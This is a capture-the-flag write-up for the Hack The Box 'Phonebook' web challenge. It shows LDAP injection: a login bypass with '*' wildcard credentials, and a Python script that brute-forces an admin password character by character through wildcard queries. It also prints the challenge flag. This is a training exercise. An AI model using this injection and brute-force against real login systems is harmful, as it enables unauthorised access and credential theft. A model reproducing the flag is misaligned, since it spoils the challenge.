






# [Phonebook](https://app.hackthebox.com/challenges/phonebook)

## Analysis

detected LDAP syntax after try enter special characters of LDAP:


## Solutions

guess the LDAP code in the server-side:

```ldap
(&(username=...)(password=...))
```

Login with credentials `*`:`*`, try using the search function, depending on the pre-login message in the login page, we can know that reese is the admin:



Find reese account and login:



But I don't see anything, try to login to another account but can't login to any other account, only Reese account.

Try to login to reese account with password of HTB flag pattern then:


Find flag:

Solution 1, use burpsuite's intruder to find every character of the password:

however this method is too brrrrr.

so I tried to write a python script to solve this challenge:

```python
import requests, string

flag = "HTB{"

allchar = string.printable.replace('*', '')

while True:
    check = False
    for c in allchar:
        resp = requests.post("http://178.62.95.229:32078/login", data={"username":"reese", "password":flag + c + "*}"}, allow_redirects=False)
        if resp.status_code == 302 and '/login?message=Authentication%20failed' not in str(resp.headers):
            flag += c
            check = True
            break
    print(flag)
    if not check:
        print('Flag: ' + flag + '}')
        break
```


Flag: `HTB{d1rectory_h4xx0r_is_k00l}`

## References

<https://shakuganz.com/2021/07/04/hackthebox-phonebook-write-up/>
